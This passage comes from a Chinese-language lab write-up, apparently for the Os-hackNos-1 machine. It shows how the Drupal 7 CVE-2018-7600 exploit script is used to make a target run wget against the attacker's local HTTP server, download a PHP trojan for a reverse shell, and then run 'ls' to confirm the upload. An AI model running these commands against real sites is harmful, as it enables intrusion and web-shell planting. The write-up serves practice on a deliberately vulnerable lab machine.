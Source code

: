 

或者采用第一种(即moon的方式)进行反弹shell

然后在当前目录开启python自带的httpserver

python -m SimpleHTTPServer

然后使用

```
./drupa7-CVE-2018-7600.py http://192.168.5.132/drupal/ -c "wget http://192.168.5.129:8000/moon.php"   
```

将php文件上传到靶机上

再使用

```
./drupa7-CVE-2018-7600.py http://192.168.5.132/drupal/ -c ls
```

查看php木马是否上传成功

![image-20230628232146849](Os-hackNos-1.assets\image-20230628232146849.png)

